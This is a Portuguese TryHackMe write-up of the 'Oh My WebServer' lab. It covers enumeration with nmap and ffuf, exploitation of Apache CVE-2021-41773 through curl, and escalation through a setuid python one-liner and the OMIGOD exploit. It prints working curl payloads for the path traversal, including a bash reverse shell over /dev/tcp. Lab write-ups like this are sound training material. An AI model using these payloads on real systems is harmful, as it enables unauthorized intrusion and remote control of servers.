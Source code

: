 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/ohmywebserver/banner.png"
alt: "tryhackme"
---
```


![banner](/img/thm/ohmywebserver/banner.png) 
</p>
<hr>

# Recon
Começando com Nmap, vamos enumerar a máquina para ver quais portas e serviços estão rodando no servidor.

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

![nmap](/img/thm/ohmywebserver/nmap.png)

Apenas as portas 80 e 22 estão abertas, executando um Apache 2.4.4 e um SSH respectivamente. Então vamos começar pela aplicação web.

![consult](/img/thm/ohmywebserver/consult.png)

A princípio não há nada demais, então podemos enumerar os diretórios usando o `ffuf`

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Encontrei dois diretório que podem ser interessantes: `assets` e `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Porém a princípio não havia nada de mais

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Após não encontrar muita coisa, voltei nos resultados do Nmap e notei que a versão do Apache que estava sendo executada havia uma CVE: `CVE-2021-41773`. Podemos confirmar usando o cURL.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

Consegui um Path Traversal, no qual conseguimos executar comandos, então podemos usar o cURL e o netcat para estabelecer uma conexão reversa.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Recebi a conexão, porém não tem nenhum usuário no sistema e também nenhum diretório home.

![no-user](/img/thm/ohmywebserver/no-user.png)

Após passar algum tempo procurando um ponto de partida decidi usar o linPEAS, e foi onde obtive a seguinte saída:

![linpeas](/img/thm/ohmywebserver/linpeas.png)

Com isso podemos setar o UID usando o python.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

Após a enumeração olhei novamente a saída do linPEAS, e foi onde econtrei algo interessante: há outro endereço IP. Então podemos usar o Nmap para enumerar esse host. Você pode baixar o binário [aqui](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64).

`nmap -v 172.17.0.0-5`

Esse comando vai fazer um scan do host 0 ao 5, e saída nos mostra que o host 172.17.0.1 está ativo.

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerando todas as 65535 portas o scan apontou duas portas abertas: `5985` e `5986`

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Com isso temos outra CVE: `CVE-2021-38647`, na qual podemos usar um script já pronto para explorar a falha. Você pode baixar o script [aqui](https://github.com/AlteredSecurity/CVE-2021-38647).

![omigod](/img/thm/ohmywebserver/omigod.png)

O scrip executa comandos na máquina alvo, então podemos passá-los na execução como argumento, lendo a flag de root.

![root](/img/thm/ohmywebserver/root.png)
